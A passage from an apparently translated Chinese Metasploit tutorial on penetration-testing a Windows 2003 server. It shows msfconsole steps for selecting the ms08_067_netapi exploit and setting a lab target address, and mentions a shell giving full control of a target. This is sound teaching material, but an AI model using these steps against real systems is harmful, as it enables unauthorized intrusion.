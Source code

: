 接下来呢？shell 访问如何为我们提供对目标的控制。

### 获得对目标的完全控制

现在我们已经在目标机器上建立了一个 shell 连接，我们可以通过命令提示符完全访问目标机器。现在我们可以继续使用我们可以使用的常见 DOS 命令来探索目标机器。一些基本操作包括目录列表、复制文件和文件夹、创建用户代理等。

# 对 Windows 2003 服务器进行渗透测试

在上一篇文章中，我们分析了如何使用`dcom`利用来引起缓冲区溢出并利用我们的 Windows 目标。在这篇文章中，我们将专注于一个类似但逻辑上不同的环境。Windows 2003 服务器是微软最广泛使用的企业级操作系统之一。在这篇文章中，我们将看到如何利用 Windows 2003 服务器。更新版本的 Windows 2003 服务器已经修补了`dcom`漏洞，所以在这里不起作用。因此，我们将在这篇文章中尝试不同的漏洞。我们将使用`netapi32.dll`漏洞。首先，我们将分析利用过程，然后分析这个漏洞的原因。让我们开始我们的渗透测试。

## 准备工作

首先，让我们启动`msfconsole`并快速扫描目标。建议您按顺序执行所有步骤，以确保加强基础知识。下一步将与我们在前两个示例中讨论的相同。唯一的区别在于使用利用。

## 如何做...

要对 Windows 2003 服务器进行渗透测试，请按照以下步骤进行：

1.  让我们开始搜索`netapi`。这将列出 Metasploit 目录中与`netapi`相关的任何可用利用：

```
msf > search netapi
Matching Modules
================
Name Disclosure Date Rank
---- --------------- ---- exploit/windows/smb/ms03_049_netapi 2003-11-11 good
exploit/windows/smb/ms06_040_netapi 2006-08-08 good
exploit/windows/smb/ms06_070_wkssvc 2006-11-14 manual
exploit/windows/smb/ms08_067_netapi 2008-10-28 great 
```

正如我们所看到的，四个结果中，最后一个利用具有很高的评分。所以我们将优先使用这个利用。

1.  我们将设置`RHOST`作为我们的目标 Windows 2003 服务器：

```
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 445 yes Set the SMB service port
SMBPIPE BROWSER yes The pipe name to use (BROWSER, SRVSVC)
Exploit target:
Id Name
-- ----
0 Automatic Targeting
msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102
RHOST => 192.168.56.102 
```
